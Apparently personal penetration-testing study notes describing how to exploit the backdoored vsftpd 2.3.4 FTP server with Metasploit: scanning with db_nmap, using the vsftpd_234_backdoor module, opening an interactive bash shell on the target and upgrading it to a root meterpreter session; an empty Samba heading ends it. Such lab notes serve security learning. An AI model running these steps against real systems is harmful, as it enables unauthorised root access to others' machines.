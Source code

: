 
### Exploiting a vulnerable FTP server 

- port 21 - facilitate file sharing between server and clients 
- transfer files to and from the directory of a web server 
- vsftpd is an FTP server for Unix-like systems including Linux systems and the default FTP server for ubuntu, CentOS and Fedora 
- **vsftpd** V2.3.4 is vulnerable to a command execution vulnerability that is facilitated by a malicious backdoor that was added to the vsftpd download archive through supply chain attack.

1) `service` `PostgreSQL` `start` 
2) `msfconsole` 
3) create new `workspace` 
4) set global variable for `rhosts` (setg)
5) perform service detection, operating detection and syn scan: `db_nmap -sS -sV -O ip `
6) `search vsftpd `
7) `use exploit/unix/ftp/vsftpd_234_backdoor `
	(try: )1) `set payload cmd/unix/interact` 
8) open bash terminal on target system: ` /bin/bash -i ` which will open a shell on target to upgrade the shell go to the next step 
9) upgrade session to meterpreter session (put other session in background)
	1) `search shell_to_meterpreter` (will upgrade current shell session to meterpreter session)
	2) `use post/multi/manage/shell_to_meterprete`r (this is a post module so you can only use it when you have an active session on the target system) -> specify options (`set` `session` to `1` (this is the session that we want to upgrade))
	3) `sessions` 
![[Pasted image 20230827153708.png]] 
When userid is 0 then you are root user 


### Exploiting Samba 





